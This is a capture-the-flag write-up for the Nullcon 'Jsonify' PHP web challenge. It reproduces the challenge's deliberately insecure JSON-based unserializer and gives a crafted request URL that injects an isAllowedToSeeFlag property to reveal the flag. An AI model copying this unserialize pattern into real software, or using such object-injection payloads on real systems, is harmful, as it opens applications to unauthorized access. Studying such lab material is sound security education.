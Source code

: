 # Jsonify
```
Type: Web
Plateform : Nullcon
Difficulty : [x] [] [] [] []
Tools : web-console
```

#### DESCRIPTION
Everyone's telling me that serialize/unserialize should not be used with user-supplied input.</br>
Alright, I implemented my own JSON-based (un)serializer, so all potential vulnerabilities are gone, right?

--> writeup inspired by @pihnv
https://hackmd.io/@pihnv/nullcon-goa-hackimctf-2022-writeup#Jsonify

#### STEP 1
In the first step, we must refactoring code structure:
```
<?php
ini_set('allow_url_fopen', false);
interface SecurSerializable
{
    public function __construct();
    public function __shutdown();
    public function __startup();
    public function __toString();
}

class Flag implements SecurSerializable
{
    public $flag;
    public $flagfile;
    public $properties = array();
    public function __construct($flagfile = null)
    {
        if (isset($flagfile)) {
            $this->flagfile = $flagfile;
        }
    }
    public function __shutdown()
    {
        return $this->properties;
    }
    public function __startup()
    {
        $this->readFlag();
    }
    public function __toString()
    {
        return "ClassFlag(" . $this->flag . ")";
    }
    public function setFlag($flag)
    {
        $this->flag = $flag;
    }
    public function getFlag()
    {
        return $this->flag;
    }
    public function setFlagFile($flagfile)
    {
        if (stristr($flagfile, "flag") || !file_exists($flagfile)) {
            echo "ERROR: File is not valid!";
            return;
        }
        $this->flagfile = $flagfile;
    }
    public function getFlagFile()
    {
        return $this->flagfile;
    }
    public function readFlag()
    {
        if (!isset($this->flag) && file_exists($this->flagfile)) {
            $this->flag = join("", file($this->flagfile));
        }
    }
    public function showFlag()
    {
        if ($this->isAllowedToSeeFlag) {
            echo "Theflagis:" . $this->flag;
        } else {
            echo "Theflagis:[You'renotallowedtoseeit!]";
        }
    }
}
function secure_jsonify($obj)
{
    $data = array();
    $data['class'] = get_class($obj);
    $data['properties'] = array();
    foreach ($obj->__shutdown() as & $key) {
        $data['properties'][$key] = serialize($obj->$key);
    }
    return json_encode($data);
}

function secure_unjsonify($json, $allowed_classes)
{
    $data = json_decode($json, true);
    if (!in_array($data['class'], $allowed_classes)) {
        throw new Exception("ErrorProcessingRequest", 1);
    }
    $obj = new $data['class']();
    foreach ($data['properties'] as $key => $value) {
        $obj->$key = unserialize($value, ['allowed_classes' => false]);
    }
    $obj->__startup();
    return $obj;
}
if (isset($_GET['show']) && isset($_GET['obj']) && isset($_GET['flagfile'])) {
    $f = secure_unjsonify($_GET['obj'], array(
        'Flag'
    ));
    echo $f;
    $f->setFlagFile($_GET['flagfile']);
    $f->readFlag();
    $f->showFlag();
} else if (isset($_GET['show'])) {
    $f = new Flag();
    $f->flagfile = "./flag.php";
    $f->readFlag();
    $f->showFlag();
} else {
    header("Content-Type:text/plain");
    echo preg_replace('/\s+/', '', str_replace("\n", '', file_get_contents("./jsonify.php")));
}
```

#### STEP 2
Once the file is reconstituted, we must locate the important code lines to obtain the flag:
```
if(isset($_GET['show'])&&isset($_GET['obj'])&&isset($_GET['flagfile']))
$f->readFlag();
...
```

#### STEP 3
Then, we just to make a correct url to get flag with the code above:
```
http://52.59.124.14:10002/?show&obj={"class":"Flag","properties":{"isAllowedToSeeFlag":"b:1","flagfile":"flag.php"}}&flagfile=.
```

#### FLAG
`==> ENO{PHPwn_1337_hakkrz}`

